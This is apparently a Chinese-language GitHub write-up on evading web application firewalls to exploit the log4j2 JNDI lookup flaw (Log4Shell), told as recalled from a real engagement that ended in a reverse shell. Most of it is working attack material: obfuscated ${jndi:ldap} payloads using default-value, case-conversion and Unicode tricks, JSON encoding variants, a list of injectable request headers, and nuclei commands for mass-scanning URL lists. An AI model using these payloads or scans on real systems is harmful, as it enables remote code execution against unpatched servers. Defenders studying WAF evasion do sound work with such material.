 
##  0x00 原理介绍
     
         去年有个项目，有WAF，然后进行了绕过，成功反弹，现在在回忆记录一下。
     
     log4j2输出日志的时候除了常见的变量替换，还支持远程获取相应的内容，获取远程内容是通过lookup功能提供，
     
     ## 变量替换如下
     
     logger.info("user name: {}, alias name: {}", userName, aliasName)
     
     获取远程内容支持jndi
     
## 0x01 WAF绕过总结

         
         从log4j-2.15.0-rc2开始，默认关闭了Lookups功能，需要修改配置才能结合各种绕过方式，所以意义不大，2.16.0开始，移除了Lookups功能，然后在受影响版本log4j2.0-beta9 <=        版本 log4j <= 2.14.1中，由于waf多拦截jndi等关键字，可通过如下几种方式进行绕过。
          :- 是一个赋值关键字，如果程序处理到 ${aaaa:-bbbb} 这样的字符串，处理的结果将会是 bbbb，借助此特性，可构造如下waf绕过
     logg.info("${${::-J}ndi:ldap://127.0.0.1:1389/Calc}");
          Lookups中除了jndi还存在Upper、Lower等方式，可变换大小写，可构造如下waf绕过
     logg.info("${${lower:J}ndi:ldap://127.0.0.1:1389/Calc}");
     logg.info("${${upper:j}ndi:ldap://127.0.0.1:1389/Calc}");      
          
          同时也可以利用一些特殊字符的大小写转化的问题
     ı => upper => i (Java 中测试可行)
     ſ => upper => S (Java 中测试可行)
     İ => upper => i (Java 中测试不可行)
     K => upper => k (Java 中测试不可行)
     logg.error("${jnd${upper:ı}:ldap://127.0.0.1:1389/Calc}");
          
          现在数据传输很多都是 json 形式，所以在 json 中我们也可以进行尝试，像 Jackson 和 fastjson 又有 unicode 和 hex 的编码特性，所以就可以尝试编码绕过
     {"key":"\u0024\u007b"}
     {"key":"\x24\u007b"}
## 0x02 请求头Fuzz测试

       这个漏洞请求头也存在风险，有如下请求头可以利用
       
       X-Client-IP 
       X-Remote-IP 
       X-Remote-Addr 
       X-Forwarded-For 
       X-Originating-IP 
       User-Agent 
       Referer 
       CF-Connecting_IP 
       True-Client-IP 
       X-Forwarded-For 
       Originating-IP 
       X-Real-IP 
       X-Client-IP 
       Forwarded Client-IP 
       Contact X-Wap-Profile 
       X-Api-Version
      
       检测方法，下载 https://github.com/test502git/log4j-fuzz-head-poc 将文件放到nuclei同目录下
       
       执行如下命令即可快速针对log4j批量fuzz请求头检测漏洞
       
       # 单个检测  速率为30
      ./nuclei -t log4j-fuzz-head-poc.yaml -u http://www.test.com  -o res.txt  -rl 30
      # 批量检测  速率为30
      ./nuclei -t log4j-fuzz-head-poc.yaml -l urls.txt  -o res.txt   -rl 30

      也可以直接通过-debug参数，在终端中看到请求和响应包的详细信息
      
      
  ![image](https://user-images.githubusercontent.com/118274389/236361689-dbddc3a0-72cb-4424-9afe-382aced083f1.png)




       
       
 
 ## 0x03 参考
    https://blog.csdn.net/qq_40640917/article/details/128613592
